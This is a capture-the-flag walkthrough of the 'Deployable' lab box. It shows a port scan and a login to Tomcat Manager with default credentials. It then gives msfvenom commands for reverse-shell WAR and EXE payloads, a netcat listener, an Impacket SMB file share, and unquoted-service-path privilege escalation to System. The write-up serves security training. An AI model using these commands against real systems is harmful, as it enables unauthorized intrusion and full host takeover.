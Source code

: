 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Deployable/
---
```


# Deployable

![](<../../../.gitbook/assets/image (496).png>)

## Nmap

```
sudo nmap 172.31.1.13 -p- -sS -sV

PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8009/tcp  open  ajp13              Apache Jserv (Protocol v1.3)
8080/tcp  open  http               Apache Tomcat/Coyote JSP engine 1.1
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## HTTPS

ON Port 8080 we have Apache Tomcat/7.0.88. With Tomcat you can access a file upload session under the 'Manager App' button on the right.

![http://172.31.1.13:8080/](<../../../.gitbook/assets/image (497) (1).png>)

You will be presented with Http-basic-auth request box. Entering invalid credentials defaults to the page below.

![http://172.31.1.13:8080/host-manager/html](<../../../.gitbook/assets/image (498).png>)

The above page provides default credentials for admin:s3cret

If we try reloading the 'Manager App' page again and entering the credentials we are able to login with the defaults.

![http://172.31.1.13:8080/manager/html](<../../../.gitbook/assets/image (500).png>)

## Initial Foothold

I have completed some Tomcat based boxes before and find they are usually susceptible to malicious WAR file uploads. Further down the page we can see an opportunity to upload a WAR file.

![](<../../../.gitbook/assets/image (501).png>)

msfvenom can be used to create malicious WAR files which essentially are Java based reverse shells that we can generate. I have linked an article below which goes over some ways to exploit a Tomcat server. I will be using the WAR backdoor method.

{% embed url="https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/" %}

Run the following in a terminal.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

![](<../../../.gitbook/assets/image (502).png>)

After this has been generated we can upload the malicious file. We can now see the shell now appear in the application list.

![](<../../../.gitbook/assets/image (503).png>)

Clicking on the shell will execute the reverse shell we created. Ensure you have a netcat listener running to catch the shell.

Once we execute the shell we should connect.

![](<../../../.gitbook/assets/image (504).png>)

## Privilege Escalation

Using `whoami /priv` we can check our privileges:

![](<../../../.gitbook/assets/image (505).png>)

'SeImpersonatePrivilege' is interesting and can potentially lead to JuicyPotato attacks. This is somewhat expected as this privilege is often given to service accounts in which we are likely running as.

the `systeminfo` command reveals we are running on Windows Server 2012 R2 Datacenter which is usually vulnerable to JuicyPotato attacks.

![](<../../../.gitbook/assets/image (506).png>)

For now I will explore other attack vectors as I have covered this type of attack recently.

I next set up a SMB server on my attacking machine using Impacket's smbserver.py.

```
sudo python2 smbserver.py -smb2support Share /home/kali/scripts/windows/
```

![](<../../../.gitbook/assets/image (507).png>)

We now should be able to execute and download files easily from inside the shell on the Server. I started with by running winPEAS.exe to identify in points of escalation.

![](<../../../.gitbook/assets/image (508).png>)

After a while winPEAS.exe picks up that the Deploy service is which uses Deploy.exe in the following path at `C:\Program Files\Deploy Ready\Service Files\Deploy.exe` has no quotes and has spaces in the path

![](<../../../.gitbook/assets/image (509).png>)

I have linked below a really good Medium article that explains the vulnerability really well. I have also shown a small snippet from the Article.

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

![@SumitVerma101](<../../../.gitbook/assets/image (510).png>)

In this case I will create a reverse shell with `msfvenom` called `Service.exe` as this will be executed before the `Deploy.exe` file.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /home/kali/scripts/windows/Service.exe 
```

I can then copy this over to the destination folder using the SMB server I set up earlier.

![](<../../../.gitbook/assets/image (511).png>)

We can now set up a `netcat` listener on our attacking machine to the port of the `Service.exe` we created.

```
nc -lvp 4477
```

We need to then start the service for it to execute the Service.exe as System.

```
sc start Deploy
```

![](<../../../.gitbook/assets/image (512) (1).png>)

You should now have a shell as System.

![](<../../../.gitbook/assets/image (513).png>)

